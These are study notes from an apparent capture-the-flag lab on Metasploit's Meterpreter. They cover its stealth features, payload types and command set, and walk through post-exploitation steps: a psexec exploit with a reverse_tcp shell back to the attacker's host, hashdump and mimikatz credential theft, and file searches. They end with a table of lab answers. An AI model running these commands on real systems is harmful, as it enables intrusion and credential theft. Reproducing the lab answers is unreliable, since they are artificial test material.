 ## Metasploit - Meterpreter

### 🔹 Introduction to Meterpreter

Meterpreter is a Metasploit payload that runs on the target system and acts as an agent within a command and control architecture. It allows interaction with the target OS and files using specialized commands.

#### How does Meterpreter work?

* Runs in memory; no files written to disk (stealthy against antivirus).
* Encrypted communication with attacker machine (avoids detection by IPS/IDS).
* Recognized by antivirus but still provides stealth.

#### Example: Checking Process ID

```bash
meterpreter > getpid
Current pid: 1304
meterpreter > ps
```

* PID helps identify processes on Windows or Linux.
* Meterpreter may run under a legitimate system process like spoolsv.exe.

#### Checking DLLs for Meterpreter

```bash
C:\Windows\system32>tasklist /m /fi "pid eq 1304"
```

* Shows loaded modules for the process.
* No direct meterpreter DLL is visible (stealthy).

---

### 🔹 Meterpreter Flavors

* Payloads: Inline (single-step) or staged (multi-step).
* Platforms: Android, iOS, Java, Linux, OSX, PHP, Python, Windows.
* Choosing a version depends on OS, available components, and network type.

#### Listing Meterpreter payloads

```bash
msfvenom --list payloads | grep meterpreter
```

* Shows all Meterpreter versions and transport options.

#### Default Payload Example

```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
```

* `show payloads` lists other compatible payloads for the exploit.

---

### 🔹 Meterpreter Commands

#### Core Commands

* `background` / `bg`: Backgrounds session.
* `exit`: Terminates session.
* `getuid`: Shows current user.
* `migrate <PID>`: Move Meterpreter to another process.
* `hashdump`: Dumps SAM database hashes.

#### File System Commands

* `cd`, `ls`, `pwd`, `edit`, `cat`, `rm`, `search`, `upload`, `download`.

#### Networking Commands

* `arp`, `ifconfig`, `netstat`, `portfwd`, `route`.

#### System Commands

* `clearev`, `execute`, `getpid`, `kill`, `pkill`, `ps`, `reboot`, `shell`, `shutdown`, `sysinfo`.

#### User/Hardware Commands

* `idletime`, `keyscan_*`, `screenshot`, `record_mic`, `webcam_*`, `getsystem`.

#### Notes

* Some commands depend on target system capabilities.
* Use `help` to see all available commands.

---

### 🔹 Post-Exploitation with Meterpreter

#### Goals

* Gather system information, user credentials, files.
* Privilege escalation.
* Lateral movement.

#### Additional Modules

* `load kiwi`: Load mimikatz for credential extraction.
* `load python`: Execute Python code on target.

#### Kiwi Commands

* `creds_all`, `creds_msv`, `dcsync`, `golden_ticket_create`, `lsa_dump_sam`, `password_change`, `wifi_list`.

---

### 🔹 Post Exploitation Challenge (Practical Steps & Explanations)

#### Initial SMB Compromise

```bash
use exploit/windows/smb/psexec
set RHOSTS <TARGET_IP>
set SMBUser ballen
set SMBPass Password1
set payload windows/meterpreter/reverse_tcp
set LHOST <YOUR_KALI_IP>
run
```

* Successfully gains Meterpreter session.
* Up arrow allows command reuse; no need to retype.

#### Managing Multiple Sessions

```bash
sessions -l
sessions -i <ID>
```

* Check active sessions.
* Keep master session stable for exploration; don’t migrate blindly.

#### File Search & Retrieval

```bash
meterpreter > search -f secrets.txt
Found: c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt
meterpreter > cat "c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt"
```

* Use `search -d <dir>` for faster searches.
* `cat` works in Meterpreter; in Windows shell use `type <file>`.

#### Credential Dumping

```bash
meterpreter > hashdump
```

* Lists SAM database hashes.
* Cracked using online NTLM databases (CrackStation) for cleartext.
* Avoid migrating into low-privilege process after dumping hashes.

#### Notes on Migration

```bash
meterpreter > migrate <PID>
```

* Use to stabilize session or access another process.
* Losing privileges is possible if migrating from SYSTEM to lower user.

#### Practical Answers from Lab

| Question                     | Answer & Steps                                                            |
| ---------------------------- | ------------------------------------------------------------------------- |
| Computer Name                | ACME-TEST (from `sysinfo`)                                                |
| Target Domain                | FLASH (from `sysinfo`)                                                    |
| Share Name                   | speedster (from `net share`)                                              |
| NTLM Hash jchambers          | 69596c7aa1e8daee17f8e78870e25a5c (`hashdump`)                             |
| Cleartext Password jchambers | Cracked via CrackStation                                                  |
| secrets.txt Full Path        | c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt (`search`) |
| Twitter Password             | Content of secrets.txt (`cat`)                                            |
| realsecret.txt Full Path     | Located using `search` in likely directories                              |
| Real Secret                  | The Flash is the fastest man alive (from realsecret.txt)                  |

**Lessons Learned:**

* Meterpreter is stealthy but powerful; proper session management is crucial.
* Use directory-limited searches for speed.
* Kiwi enhances credential access.
* Always keep a stable master session for post-exploitation activities.

